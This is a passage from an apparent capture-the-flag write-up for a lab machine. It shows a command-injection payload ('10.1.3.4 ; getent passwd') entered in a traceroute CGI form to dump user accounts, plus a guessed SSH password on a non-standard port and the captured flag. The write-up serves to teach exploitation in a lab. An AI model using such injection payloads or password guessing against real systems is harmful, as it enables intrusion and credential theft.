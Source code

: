 ```bash
/cgi-bin/root_shell.cgi
/cgi-bin/tracertool.cgi
/cgi-bin/*
```

We cannot access the base `/cgi-bin/` endpoint, and `/root-shell/` provides no information, but we can access `/cgi-bin/tracertool.cgi`.

### tracertool.cgi

This page contains an input box, asking for an IP address to trace, and we can directly correlate it's output to the direct output of the traceroute command.

<br>

<img src="/posts-content/n00bstable-EverSec2025/tracertool.png" alt="tracertool" style="max-width:35%;height:auto;display:block;margin:auto;" />

<br>

This could allow us to run a command directly in line after the traceroute command. To exploit this, we can send the following:

```js
10.1.3.4 ; getent passwd
```

`&`, `&&`, and `||` did not work, but `;` did. They also modified the cat command to print out a cat directly, so `$ cat /etc/passwd` did not work. But, we can use `$ getent passwd` to grab the passwd file as well to grab users.

This dumps the passwd file, but the most important ones are as follows:

```js
RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
Morty:x:1001:1001::/home/Morty:/bin/bash
Summer:x:1002:1002::/home/Summer:/bin/bash
```

We managed to secure a list of users, andI'd imagine that `Summer` would have the `winter` password, so we try that. But how?

### ssh

Turns out that ssh does not work on port 22, as it immediately closes the connection. But, you can find out that port 22222 has ssh open from a full nmap scan of all ports on the machine. So, we try connecting through port 22222.

```bash
ssh Summer@10.1.3.3 -p 22222 
```

Inputting a password of winter works here. 

FLAG.txt exists at the base login as well. Then, with the disabling of cat in mind, running `$ nano FLAG.txt` gives us the flag:

```js
----------- FLAG -----------
 U5erL3v3lSh3llAcc3ss 
----------------------------
```
